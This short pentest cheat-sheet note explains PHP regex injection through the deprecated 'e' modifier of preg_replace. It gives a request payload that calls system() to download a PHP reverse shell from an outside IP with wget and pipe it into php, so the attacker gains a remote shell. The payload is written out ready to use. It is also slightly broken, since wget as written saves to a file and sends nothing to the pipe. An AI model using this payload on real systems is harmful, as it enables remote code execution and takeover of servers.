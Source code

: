 # PHP

## Regex

If there is a regex match(e.g replace function), you can append `e` to the end.  This will  evaluate the replacement as code.



For example get request with interacts with PHP:

~~~
pattern=/thispattern/&replacement=replacementtext
~~~



Can execute a system command as follows:

~~~ht
pattern=/thispattern/e&replacement=system('wget 1.2.3.4/phpreverseshell.php | php')
~~~

this will do a wget to retrieve a reversephp shell and execute it by piping it to `php`



